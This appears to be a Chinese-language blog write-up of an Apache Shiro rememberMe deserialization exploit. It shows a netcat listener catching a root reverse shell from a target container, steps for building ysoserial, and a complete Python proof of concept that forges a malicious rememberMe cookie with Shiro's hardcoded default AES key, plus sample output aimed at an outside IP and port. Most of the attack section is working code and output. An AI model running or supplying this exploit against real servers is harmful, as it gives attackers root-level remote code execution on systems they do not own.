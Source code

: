 像我比较偷懒，就直接在脚本上添加反弹shell，这样的好处就是我们不需要在生成poc的脚本里替换cookie，由脚本自动生成的cookie自动去跑，省事很多
[我是转换网址:-)](http://www.jackson-t.ca/runtime-exec-payloads.html){:target="_blank"}
监听端口等待shell回连（我这里的样例是docker环境）
```
nc -lvvp 11111
Listening on [0.0.0.0] (family 0, port 11111)
Connection from 59.110.152.168 47274 received!
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@6d5a7848dbef:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

## 2x02：学习工具
使用ysoserial进行流量监听，下面是ysoserial的jar包生成，懂得开发同学都懂。
```
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
mvn package -D skipTests
```

## 2x03：how to poc
使用poc代码获得对应的rememberMe的cookie值。
```
# -*- coding:utf-8 -*-
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```
```
D:\bin4xin\code\shiro\shrio-poc\ysoserial\target> python .\shrio-poc.py 47.52.233.92:6666
rememberMe=W8BOhPe8Qdy8FJ5N9genqt4WjZaONr1NQ+dXgDCV1RrGHUwMfd8ljlA9AG64t7vzUesOp7YKsz6EFFHgyrq1qRqUiPFBnEBi/NNNpE2UR8CgMsf1KY2rbBurFv1Gwslv2+SL7hy3YNq9cpPWm5S8o+nJpa6IyI9cZ+n7a+6hjB4Yfnf89u3BLi4AxOXL35SotH2AdSX2iZrWgGAcah9oW21JwpC2zj4YMjsGf2tPYUysP873bYYHuSIohaXf3bcq4YuQajMctVmM3IvjeY5Ggva9QRUvo5B1o0sPNHdXGwn/z9t/KWcSeTWE+Dt2f95a9QjEIoic6s88Tv0SKjY6UdCmTxN3vVE8rs1haiA48R1CuUQQiWa9V28m2qkonX9aUEUl4kTGGvF+Y5eB4MaNTw==
```
